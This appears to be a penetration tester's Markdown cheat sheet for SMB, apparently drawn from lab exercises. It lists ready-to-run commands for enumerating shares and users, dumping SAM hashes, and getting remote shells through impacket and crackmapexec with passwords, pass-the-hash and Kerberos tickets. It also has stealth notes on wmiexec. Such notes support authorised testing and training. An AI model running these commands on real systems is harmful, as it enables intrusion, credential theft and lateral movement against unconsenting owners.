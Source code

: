 ## delete


# Interacting
## Show avaiable shares
```bash
# crackmapexec
$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares
$ crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share 'Department Shares'

# smbmap
$ smbmap -H 10.129.14.128
$ smbmap -H 10.129.14.128 -r notes
$ smbmap -H 10.129.14.128 --download "notes\note.txt"
$ smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"

# smbclient
$ smbclient -N -L //10.129.14.128
```

- `-N` suppresses the password prompt
- `-L` want to retrieve a list of available shares on the remote host

## Connecting
```bash
$ smbclient -U bob //10.129.42.253/users
$ smbclient -U user \\\\10.129.42.197\\SHARENAME

# PTH
$ smbclient.py -hashes":<hash>" <user>@<ip>
```

## Download Files
```bash
smb: \> get prep-prod.txt 
```

# Footprinting
## Nmap
```bash
$ sudo nmap 10.129.14.128 -sV -sC -p139,445
$ nmap --script smb-os-discovery.nse -p445 10.10.10.40
```

## Remote Procedure Call (RPC)
```bash
$ rpcclient <IP> -U ""
$ rpcclient -U'%' <IP>
$ rpcclient -U "" -N 172.16.5.5
```

| Query              | Description                                                      |
|--------------------|------------------------------------------------------------------|
| srvinfo            | Server information.                                              |
| enumdomains        | Enumerate all domains that are deployed in the network.          |
| querydominfo       | Provides domain, server, and user information of deployed domains.|
| netshareenumall    | Enumerates all available shares.                                 |
| netsharegetinfo <share> | Provides information about a specific share.                   |
| enumdomusers       | Enumerates all domain users.                                     |
| queryuser <RID>    | Provides information about a specific user.                      |


## Impacket - Samrdump.py (Brute Forcing User RIDs)
```bash
$ samrdump.py 10.129.14.128
```

## Enum4Linux-ng
```bash
$ git clone https://github.com/cddmp/enum4linux-ng.git
$ cd enum4linux-ng
$ pip3 install -r requirements.txt
$ ./enum4linux-ng.py <IP> -A -C
```

# Remote Code Execution
- Impacket PsExec - Python PsExec like functionality example using RemComSvc.
- Impacket SMBExec - A similar approach to PsExec without using RemComSvc. The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- Impacket atexec - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- CrackMapExec - includes an implementation of smbexec and atexec.
- Metasploit PsExec - Ruby PsExec implementation.


```
$ impacket-psexec -h
$ impacket-psexec administrator:'Password123!'@10.10.110.17
```

```
$ crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
$ crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users
$ crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam
$ crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE
```

## interactive-shell
**Psexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py]**
One of the most useful tools in the Impacket suite is psexec.py. Psexec.py is a clone of the Sysinternals psexec executable, but works slightly differently from the original. The tool creates a remote service by uploading a randomly-named executable to the ADMIN$ share on the target host. It then registers the service via RPC and the Windows Service Control Manager. Once established, communication happens over a named pipe, providing an interactive remote shell as SYSTEM on the victim host.

To connect to a host with psexec.py, we need credentials for a user with local administrator privileges.

```bash
# ClearText
$ impacket-psexec <domain>/<user>:<password>@<ip>
$ psexec.py <domain>/<user>:<password>@<ip>

# PTH
$ impacket-psexec -hashes ":<hash>"<user>@<ip>`
$ psexec.py -hashes ":<hash>"<user>@<ip>

# PTT - Same as PassTheHash but use -k and -no-pass 
$ psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
$ psexec.py -dc-ip IP -target-ip $IP -no-pass -k <DOMAIN>/<USER>@<target machine name>.<DOMAIN> -> goat
$ psexec.py -dc-ip <IP> -no-pass -k <domain>/<user>@<ip>
```

### pseudo-shell (file write and read)
#### Impacket Toolkit
**Atexec.py [https://github.com/fortra/impacket/blob/master/examples/atexec.py]**
```bash
# ClearText
$ atexec.py <domain>/<user>:<password>@<ip> "command" 

# PTH
$ atexec.py -hashes ":<hash>" <domain>/<user>@<ip> "command"

# PTT
$ atexec.py <domain>/<user>@<ip> "command" -k -no-pass
```

**Smbexec.py [https://github.com/fortra/impacket/blob/master/examples/smbexec.py]**
```bash
# ClearText
$ smbexec.py <domain>/<user>:<password>@<ip>

# PTH
$ smbexec.py -hashes ":<hash>" <domain>/<user>@<ip> 

# PTT
$ smbexec.py <domain>/<user>@<ip> -k -no-pass
```

**Wmiexec.py [https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py]**
Wmiexec.py utilizes a semi-interactive shell where commands are executed through Windows Management Instrumentation. It does not drop any files or executables on the target host and generates fewer logs than other modules. After connecting, it runs as the local admin user we connected with (this can be less obvious to someone hunting for an intrusion than seeing SYSTEM executing many commands). This is a more stealthy approach to execution on hosts than other tools, but would still likely be caught by most modern anti-virus and EDR systems. We will use the same account as with psexec.py to access the host.
```bash
# ClearText
$ wmiexec.py <domain>/<user>:<password>@<ip>

# PTH
$ wmiexec.py -hashes":<hash>" <user>@<ip> 
```

**Dcomexec.py [https://github.com/fortra/impacket/blob/master/examples/dcomexec.py]**
```bash
# ClearText
$ dcomexec.py <domain>/<user>:<password>@<ip>

# PTH
$ dcomexec.py -hashes ":<hash>"<user>@<ip> 
```

**CrackMapExec**
```bash
# ClearText
$ crackmapexec smb <ip> -u <user> -p <pssword> -x <command> --exec-method smbexec
$ crackmapexec smb <ip_range> -u <user> -p < password> -d <domain>
$ crackmapexec smb <ip_range> -u <user> -p < password> -local-auth

# PTH
$ crackmapexec smb <ip_range> -u <user> -d <domain> -H ':<hash>' 
$ crackmapexec smb <ip_range> -u <user> -H ':<hash>' --local-auth
```

